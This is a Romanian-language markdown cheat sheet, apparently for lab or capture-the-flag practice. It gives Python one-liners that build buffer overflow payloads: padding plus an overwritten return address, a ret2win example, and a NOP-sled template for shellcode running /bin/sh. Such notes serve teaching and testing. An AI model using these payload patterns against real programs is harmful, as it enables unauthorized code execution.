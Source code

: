 
## Exemplu de payload pentru buffer overflow

O comandă Python utilă pentru testarea buffer overflow-urilor:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 24 + b"\xa6\x91\x04\x44")'
```

**Explicație:**
- Creează un șir de 24 de caractere "A" (24 bytes cu valoarea 0x41).
- Adaugă la final 4 bytes cu valorile hexazecimale: 0xa6, 0x91, 0x04, 0x44.
- Scrie acest șir binar direct la ieșirea standard (stdout), fără conversie la text.
- Se folosește pentru a umple un buffer și a suprascrie adresa de returnare (de exemplu, la exploatarea unui buffer overflow).
- Adresa 0x440491a6 este scrisă în format little-endian (octeții inversați față de cum apar în memorie).

**Scop:**
- Testarea vulnerabilităților de tip buffer overflow, suprascrierea adresei de returnare sau a altor date critice pe stivă.

---

## Exemple suplimentare de payload pentru buffer overflow

### 1. Suprascrierea adresei de returnare cu adresa unei funcții (ex: win)

Dacă vrei să redirecționezi execuția către o funcție existentă (de exemplu, `win()`), trebuie să determini offset-ul până la adresa de returnare și să folosești adresa funcției în format little-endian.

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A" * <offset> + b"\x<adresa_win>")'
```

**Exemplu concret:**
Dacă offset-ul este 40 și adresa funcției `win` este `0x080491b6`:
```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A" * 40 + b"\xb6\x91\x04\x08")'
```

### 2. Payload cu shellcode (execve /bin/sh)

Poți injecta shellcode direct în buffer, urmat de padding și adresa de returnare care să pointeze înapoi în buffer (sau într-un NOP sled).

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*16 + b"<shellcode>" + b"A"*(<offset>-<shellcode_len>-16) + b"<adresa_buffer>")'
```

**Exemplu simplificat:**
```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"\x90"*16 + b"\x31\xc0..." + b"A"*8 + b"\x40\xf0\xff\xbf")'
```
- `\x90`*16: NOP sled (instrucțiuni NOP pentru a crește șansa de execuție corectă)
- `<shellcode>`: codul shellcode (ex: execve /bin/sh)
- `A`*8: padding până la adresa de returnare
- `\x40\xf0\xff\xbf`: adresa de start a bufferului (exemplu, trebuie determinată cu gdb)
